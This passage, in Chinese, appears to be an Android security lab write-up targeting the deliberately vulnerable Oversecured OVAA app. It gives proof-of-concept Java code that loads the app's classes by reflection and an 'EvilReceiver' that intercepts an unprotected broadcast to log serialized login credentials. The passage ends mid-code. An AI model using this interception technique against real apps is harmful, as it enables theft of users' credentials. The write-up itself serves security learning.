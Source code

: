**![](img/f7e4c308703ae4a31521b03386ee3a8c.png)**

**我们将使用一个 [**反射**](https://www.areizen.fr/post/exploiting_android_application_trough_serialized_intent/) 方法来加载过度安全的 APK 包，在我们的主活动中加载它的索引和类。**

**我们主要活动类的 PoC。**

```
package com.evil.oversecuredbroadcast;import androidx.appcompat.app.AppCompatActivity;import android.content.pm.ApplicationInfo;
import android.content.pm.PackageManager;
import android.os.Bundle;import dalvik.system.DexFile;public class MainActivity extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Object object = null;
        try{
            PackageManager pm = getPackageManager();
            ApplicationInfo appinfo = pm.getApplicationInfo("oversecured.ovaa",0);
            DexFile df = new DexFile(appinfo.sourceDir);ClassLoader cl = getClassLoader();
            Class cli = df.loadClass("oversecured.ovaa.objects.LoginData",cl);
            object = cli.newInstance();} catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

**我们的**邪恶接收器**来了。我们从加载在**广播意图**中的过度安全的 APK 中声明动作，并通过`payload` extras 的 **getSerializable()** 接收**序列化的**数据。为了简单起见，我们将把它传递给一个记录器。**

```
package com.evil.oversecuredbroadcast;import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.util.Log;import java.io.Serializable;public class EvilReceiver extends BroadcastReceiver {[@Override](http://twitter.com/Override)
    public void onReceive(Context context, Intent intent) {
        // TODO: This method is called when the BroadcastReceiver is receiving
        // an Intent broadcast.
        if(intent != null) {
            if("oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA".equals(intent.getAction())){
                Log.d("evilreceiver","" + intent.getExtras().getSerializable("payload"));
            }
            else{
                Log.d("evilreceiver","Not yet intercepted");
            }
        }else{
```